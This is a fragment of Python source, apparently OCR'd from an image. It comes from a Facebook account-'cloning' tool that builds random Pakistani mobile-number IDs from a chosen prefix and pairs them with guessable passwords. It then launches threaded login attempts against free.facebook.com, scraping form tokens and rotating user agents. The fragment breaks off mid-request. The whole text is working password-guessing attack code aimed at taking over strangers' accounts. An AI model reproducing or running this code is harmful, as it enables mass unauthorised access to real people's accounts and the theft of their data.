 




#---------------------[PASS 2 CLONING MENU]---------------------#
def password2():
    user=[]
    
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f"")
    clear()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    linex()
    print(f"        \x1b[97m[\033[95;42mEXAMPLE :👇\033[0;m]")
    print(f"")
    print(f" 0306 ,0300 ,0315 ,0333")
    print(f" 0341 ,0342 ,0345 ,0349")
    print(f" 0321 ,0316 ,0308 ,0309")
    print(f"")
    linex()
    print(f"\x1b[97m[\033[37;41mBEST CODE 0300 / 0302 / 0306 / 0349 /0315   \033[0;m]")
    print("")
    linex()
    code = input(' PUT CODE : ')
    os.system("clear")
    print(logo)
    print(f"")
    print(f"          \x1b[97m[\033[37;41m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 2000, 3000, 50000, 100000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f" {WHITE}TOTAL IDZ             : {BLUE}"+tl+" ~> [ FAST ]")
        print(f" {WHITE}COUNTRY YOU CHOOSE    : {GREEN}PAKISTAN 🇵🇰")
        print(f" {WHITE}NUMBER YOU PUT        : {YELLOW}"+code)
        print(f" {WHITE}TODAY DATE & TIME     :{RED} {ha}/{bu}/{ta} {ORANGE}~> {GREEN} "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print(f" {WHITE}TO STOP PROCESS PRESS Ctrl + Z ")
        print(f'{RED}==========================================================')
        for love in user:
            uid = code+love
            pwx = [love,code+love]
            manshera.submit(free2,uid,pwx,tl)
def free2(uid,pwx,tl):
    global loop
    global ok
    global agents
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),